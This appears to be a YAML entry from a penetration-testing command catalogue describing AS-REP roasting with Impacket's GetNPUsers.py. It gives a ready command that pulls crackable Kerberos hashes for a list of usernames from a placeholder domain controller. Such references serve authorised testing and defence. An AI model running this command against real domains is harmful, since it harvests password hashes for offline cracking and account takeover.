```yaml
---
description: |
  Impacket's GetNPUsers.py will attempt to harvest the non-preauth AS_REP responses for a given list of usernames. These responses will be encrypted with the user's password, which can then be cracked offline.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Username List: usernames.txt

  	Output File: hashes.txt

command: |
  python3 GetNPUsers.py test.local/ -dc-ip 10.10.10.1 -usersfile usernames.txt -format hashcat -outputfile hashes.txt
items:
  - Username
services:
  - Kerberos
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
---
```

